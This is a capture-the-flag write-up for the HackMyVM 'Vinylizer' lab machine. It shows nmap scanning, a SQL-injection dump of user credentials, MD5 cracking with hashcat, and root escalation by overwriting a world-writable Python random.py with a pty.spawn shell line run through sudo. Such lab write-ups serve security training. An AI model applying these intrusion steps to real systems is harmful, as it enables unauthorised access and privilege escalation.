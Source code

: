 ```yaml
---
title: Vinylizer - HackMyVM Writeup
date: 2024-04-11
categories:
  - Writeups
tags:
  - Linux
  - Sql_injection
  - Enumeration
  - PrivEsc
---
```



# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.211 08:00:27:6d:ec:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.00100s latency).

Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   256 f8:e3:79:35:12:8b:e7:41:d4:27:9d:97:a5:14:b6:16 (ECDSA)

|_  256 e3:8b:15:12:6b:ff:97:57:82:e5:20:58:2d:cb:55:33 (ED25519)

80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))

|_http-server-header: Apache/2.4.52 (Ubuntu)

|_http-title: Vinyl Records Marketplace

MAC Address: 08:00:27:6D:EC:17 (Oracle VirtualBox virtual NIC)

Device type: general purpose

Running: Linux 4.X|5.X

OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5

OS details: Linux 4.15 - 5.8

Network Distance: 1 hop

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# Sql_injection

By accessing the website, we can directly see there is 'login.php'

 Let us try with sql injection.

```shell
+----+----------------------------------+-----------+----------------+

| id | password                         | username  | login_attempts |

+----+----------------------------------+-----------+----------------+

| 1  | 9432522ed1a8fca612b11c3980a031f6 | shopadmin | 0              |

| 2  | password123                      | lana      | 0              |

+----+----------------------------------+-----------+----------------+
```


Then we can use hashcat :

```shell
hashcat -a 0 -m 0 "9432522ed1a8fca612b11c3980a031f6" /usr/share/wordlists/rockyou.txt

9432522ed1a8fca612b11c3980a031f6:addicted2vinyl
```


# Privilege Escalation

By logging with the credential above via ssh :

```shell
shopadmin@vinylizer:/opt$ sudo -l
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py

```

By using tools like (linpeas.sh), we are able to find an file with an interesting permission:

```shell
-rwxrwxrwx  1 root root  33229 Apr 11 14:42 random.py
```

```shell
echo "import pty;pty.spawn('/bin/bash')" > /usr/lib/python3.10/random.py
sudo /usr/bin/python3 /opt/vinylizer.py
```

Then we are able to get root permission.

